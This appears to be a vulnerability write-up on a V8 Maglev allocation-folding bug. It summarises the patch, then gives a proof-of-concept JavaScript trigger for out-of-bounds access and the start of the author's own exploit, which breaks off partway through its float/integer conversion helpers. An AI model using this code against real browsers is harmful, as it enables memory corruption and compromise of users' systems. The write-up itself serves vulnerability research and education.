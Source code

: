 ## Patch
To address this vulnerability, the developers implemented the following changes:

- **Invoke `ClearCurrentRawAllocation`**: This function sets `current_raw_allocation` to `null`, ensuring that both allocations occur without the risk of being folded across a garbage collection (GC) run. This change prevents the out-of-bounds access that was causing the vulnerability.

- **Securing WASM Instances**: The WASM instance has been moved into a trusted zone. Developers are actively working to eliminate any unsafe pointers associated with this instance, enhancing the security of the overall system.

## poc:
```js
// Direct from the Exodus Blog (mentioned below).
function main() {
    class ClassParent {}
    class ClassBug extends ClassParent {
        constructor() {
            const v24 = new new.target();               // makes the checkvalue of the parent class to be constant with this call.
            super();                                    // Creates the instance of `this` object and allocates the memory required for storing infor for this object.
            let a = [9.9,9.9,9.9,1.1,1.1,1.1,1.1,1.1];  // After triggering the GC in the wrong folded allocation this gets allocated, which gives us OOB
        }
        [1000] = 8; // trigger the GC
    }
    // triggering the maglev optimizer.
    for (let i = 0; i < 300; i++) {
        Reflect.construct(ClassBug, [], ClassParent);
    }
}
%NeverOptimizeFunction(main);
main();
```

## My exploit:
```js
///////////////////////////////////////////////////////////////////////
///////////////////         Utility Functions       ///////////////////
///////////////////////////////////////////////////////////////////////

let hex = (val) => '0x' + val.toString(16);

// 8 byte array buffer
const __buf = new ArrayBuffer(8);
const __f64_buf = new Float64Array(__buf);
const __u32_buf = new Uint32Array(__buf);

// typeof(val) = float
function ftoi(val) {
    __f64_buf[0] = val;
    return BigInt(__u32_buf[0]) + (BigInt(__u32_buf[1]) << 32n); // Watch for little endianness
}

function print(x){
    console.log("[+] " + x);
}

// typeof(val) = BigInt
function itof(val) {
    __u32_buf[0] = Number(val & 0xffffffffn);
    __u32_buf[1] = Number(val >> 32n);
```